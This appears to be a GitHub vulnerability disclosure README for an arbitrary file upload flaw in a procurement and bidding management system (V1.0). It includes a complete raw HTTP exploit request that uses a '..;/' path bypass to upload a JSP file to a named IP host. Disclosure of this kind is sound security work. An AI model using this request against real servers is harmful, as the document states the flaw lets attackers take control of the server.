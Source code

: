 # Procurement-and-bidding-management-system
There is an arbitrary file upload vulnerability in the procurement and bidding management system
Recurrence of vulnerabilities
1.Problem Description 
There is an arbitrary file upload vulnerability in the procurement and bidding management system of Guangdong Guangling Information Technology Co., Ltd., which can be exploited by attackers to control server permissions.
2.Case reproduction As shown, this is a test site
![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/51b72abc-c6d8-4dc6-b25e-4082ac71867e)

3.Upload a 1. JSP file with the content of test by constructing malicious data packets

![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/11ced168-2ef7-4f3d-9162-04446305b6b8)
4.Vulnerability exploit packets
POST //api/..;/commonController.do?parserXml HTTP/1.1
Host: 219.222.48.58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: siteTitle=%E6%B1%9F%E8%8B%8F%E4%BC%98%E6%89%AC%E8%8D%AF%E4%B8%9A%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8; JSESSIONID=00427D97395E082CCCD88C7A8B6A85C3
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryf1BWcBSfJB2Bf4Zm
Content-Length: 183

------WebKitFormBoundaryf1BWcBSfJB2Bf4Zm
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: text/plain

test
------WebKitFormBoundaryf1BWcBSfJB2Bf4Zm—

5.Affected version:=V1.0
